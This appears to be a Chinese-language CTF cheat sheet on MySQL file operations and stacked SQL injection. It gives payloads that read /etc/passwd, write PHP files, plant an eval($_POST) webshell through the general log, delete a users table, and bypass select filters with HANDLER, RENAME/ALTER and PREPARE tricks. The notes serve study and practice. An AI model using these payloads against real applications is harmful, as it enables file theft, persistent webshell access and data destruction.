

# MySQL文件操作、堆叠

### MySQL变量：

```sql
SHOW VARIABLES;#获取MySQL全局变量
show variables like "%secure_file%";
```

### MySQL读文件：

#### secure\_file\_priv:

当secure\_file\_priv的值为null ，表示限制mysqld 不允许导入|导出。默认是null

当secure\_file\_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

当secure\_file\_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

```sql
Select load_file(‘/flag’);
SELECT CONVERT(LOAD_FILE("/etc/passwd") USING utf8);
```

### MySQL写文件：

```sql
select "<?php phpinfo();?>" into outfile "/tmp/1.php";
select "<?php phpinfo();?>" into dumpfile "/tmp/1.php";
#outfile函数可以导出多行，而dumpfile只能导出一行数据
#outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

```

当secure\_file\_priv为NULL：

```sql
#堆叠注入
set global general_log=on;
set global general_log_file='C:/phpStudy/WWW/789.php';
select '<?php eval($_POST["a"]) ?>';
```

#### 堆叠注入：

MySQL可以执行多条语句，多条语句之前用;做分隔。

**条件：** mysqli->multi\_query(sql);

```sql
 select * from users where id =1;delete from users;
```

#### 可在过滤select时：



1.使用handle：

```sql
handler users（表） open as hd; #指定数据表进行载入并将返回句柄重命名
handler hd read first; #读取指定表/句柄的首行数据
handler hd read next; #读取指定表/句柄的下一行数据
handler hd close; #关闭句柄
```

2.使用rename：

```sql
1';
RENAME TABLE `words` TO `words2`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#

select * from words where id = ‘$id’;
修改后等同于：
select * from 1919810931114514 where flag = ‘$id’;
select * from 1919810931114514 where flag = ' 1' or 1=1#

```

3.MySQL预处理：

```sql
1';PREPARE st from concat('s','elect', ' * from `1919810931114514` ');EXECUTE st;#
#prepare后接语句，所以可以使用字符串操作，拼接等
```

```sql
DELIMITER $$
create procedure fuck(out oo text(999), in ii text(999))
BEGIN
set oo = ii;
END$$
call fuck(@a, 0x73656C656374202731323327)$$
prepare b from @a$$
execute b$$
```
